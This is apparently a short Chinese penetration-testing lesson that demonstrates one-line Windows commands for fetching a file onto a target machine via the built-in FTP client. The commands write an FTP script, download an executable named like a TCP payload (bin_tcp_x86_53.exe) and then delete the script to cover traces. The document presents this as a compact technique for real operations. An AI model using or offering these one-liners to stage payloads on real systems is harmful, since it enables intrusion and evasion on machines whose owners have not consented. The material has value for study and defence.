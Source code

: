 **windows 全平台自带ftp，在实战中需要考虑两点。**  
* 数据传输的完整性。  
* 代码得精简

本季作为第四十课的补充，一句话下载更为精简。更符合于实战。

**靶机：**  
192.168.1.119  

**demo下载文件为：**  
bin_tcp_x86_53.exe  
![](media/a0c59424cccd7240a929a043c65a10d1.jpg)

```bash
echo open 127.0.0.1 > o&echo user 123 123 >> o &echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

![](media/3f470da4395e76cac4553c1c7081a718.jpg)



缩短一句话下载：
```bash
echo open 127.0.0.1 > o&echo get bin_tcp_x86_53.exe >> o &echo quit >> o &ftp ‐A ‐n ‐s:o &del /F /Q o
```
![](media/b4b18ed037915cf463987e9a1bd3ba9c.jpg)

![](media/bf3ffa7da2f7737d7b8f4be920d3b143.jpg)

>   Micropoor
